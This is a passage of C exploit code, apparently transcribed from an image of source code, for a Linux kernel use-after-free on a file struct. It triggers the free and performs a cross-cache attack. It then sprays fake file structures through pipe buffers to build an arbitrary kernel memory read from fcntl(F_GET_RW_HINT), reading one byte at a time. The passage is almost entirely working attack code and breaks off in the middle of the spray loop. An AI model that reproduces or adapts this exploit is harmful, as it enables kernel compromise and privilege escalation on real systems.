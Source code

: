 ```c
    alloc_victim_filp();

    // Free the victim filp
    do_uaf();

    // Resume cross-cache process
    cc_3();
    cc_4();
    cc_5();

    // Allow pages to be freed
    usleep(100000);
}

void reset_pipe_buf(void)
{
    char buf[4096] = { 0 };
    read(g_pipe.fd[PIPE_READ], buf, 4096);
}

void zero_pipe_buf(void)
{
    char buf[4096] = { 0 };
    write(g_pipe.fd[PIPE_WRITE], buf, 4096);
}

// Offset inside of inode to inode->i_write_hint
#define HINT_OFF 0x8fUL

// By using `fcntl(F_GET_RW_HINT)` we can read a single byte at
// file->inode->i_write_hint
uint64_t read_8_at(unsigned long addr)
{
    // Set the inode address
    uint64_t inode_addr_base = addr - HINT_OFF;

    // Set up the buffer for the arbitrary read
    unsigned char buf[4096] = { 0 };

    // Iterate 8 times to read 8 bytes
    uint64_t val = 0;
    for (size_t i = 0; i < 8; i++)
    {
        // Calculate inode address
        uint64_t target = inode_addr_base + i;

        // Set up a fake file 16 times (number of files per page), we don't know
        // yet which of the 16 slots our UAF file is at
        reset_pipe_buf();
        *(uint64_t *)&buf[0x20]  = target;
        *(uint64_t *)&buf[0x120] = target;
        *(uint64_t *)&buf[0x220] = target;
        *(uint64_t *)&buf[0x320] = target;
        *(uint64_t *)&buf[0x420] = target;
        *(uint64_t *)&buf[0x520] = target;
        *(uint64_t *)&buf[0x620] = target;
        *(uint64_t *)&buf[0x720] = target;
        *(uint64_t *)&buf[0x820] = target;
        *(uint64_t *)&buf[0x920] = target;
        *(uint64_t *)&buf[0xa20] = target;
        *(uint64_t *)&buf[0xb20] = target;
        *(uint64_t *)&buf[0xc20] = target;
        *(uint64_t *)&buf[0xd20] = target;
```